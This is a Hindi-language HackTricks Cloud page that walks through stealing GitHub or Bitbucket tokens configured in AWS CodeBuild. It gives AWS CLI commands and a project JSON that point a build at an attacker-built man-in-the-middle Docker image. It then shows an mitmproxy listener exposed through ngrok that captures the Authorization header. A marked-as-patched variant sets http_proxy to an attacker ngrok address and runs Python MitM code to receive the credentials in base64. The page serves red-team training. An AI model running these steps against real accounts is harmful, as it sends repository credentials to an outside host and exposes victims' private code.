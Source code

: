 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

पहले, जांचें कि क्या कोई स्रोत क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **exfiltrate** उस **access** (**GH token या OAuth token**) को प्राप्त कर सकते हैं, Codebuild को **एक विशिष्ट docker image** का उपयोग करने के लिए कहकर प्रोजेक्ट का निर्माण करने के लिए।

इसके लिए आप **एक नया Codebuild प्रोजेक्ट** बना सकते हैं या **Docker image** सेट करने के लिए मौजूदा एक का **environment** बदल सकते हैं।

आप जो Docker image उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत बुनियादी Docker image है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगा। यह आपको **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफ़िक को इंटरसेप्ट करने की अनुमति देगा और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा करेगा।

1. **अपना खुद का Docker MitM image बनाएं और अपलोड करें**
* अपने प्रॉक्सी IP पते को सेट करने और अपने SSL cert को सेट करने के लिए repo के निर्देशों का पालन करें और **docker image बनाएं**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker image बन जाए, तो **इसे एक सार्वजनिक repo** (Dockerhub, ECR...) में अपलोड करें।
2. **पर्यावरण सेट करें**
* **एक नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा एक के वातावरण को **संशोधित** करें।
* प्रोजेक्ट को **पूर्व में उत्पन्न Docker image** का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**

* जैसा कि **Github repo** में संकेतित किया गया है, आप कुछ ऐसा उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy संस्करण 9.0.1 का उपयोग किया गया था**, रिपोर्ट किया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता।
{% endhint %}

4. **बिल्ड चलाएँ और क्रेडेंशियल्स कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

यह aws cli से कुछ इस तरह किया जा सकता है

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह कमजोरियों को AWS ने 2023 के फरवरी के 20वें सप्ताह में किसी समय (मुझे लगता है कि शुक्रवार को) ठीक किया। इसलिए एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियाँ हैं, वह Github/Bitbucket टोकन लीक कर सकता है** जो कॉन्फ़िगर किया गया है या यदि अनुमतियाँ OAuth के माध्यम से कॉन्फ़िगर की गई हैं, तो **कोड तक पहुँचने के लिए उपयोग किया जाने वाला अस्थायी OAuth टोकन**।

* एक हमलावर **http\_proxy** और **https\_proxy** पर्यावरण चर को CodeBuild प्रोजेक्ट में जोड़ सकता है जो उसकी मशीन की ओर इशारा करता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`)।

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* फिर, गिटहब रेपो का URL HTTP का उपयोग करने के लिए बदलें, HTTPS के बजाय, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बुनियादी उदाहरण को प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित किए गए पोर्ट में चलाएँ।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **प्रोजेक्ट बनाएं** पर क्लिक करें, **क्रेडेंशियल्स** **स्पष्ट पाठ** (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपने मशीन से टोकन का उपयोग कर सकेगा, सभी विशेषाधिकारों की सूची बना सकेगा और (दुरुपयोग) कोडबिल्ड सेवा का सीधे उपयोग करने की तुलना में आसान तरीके से कर सकेगा।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
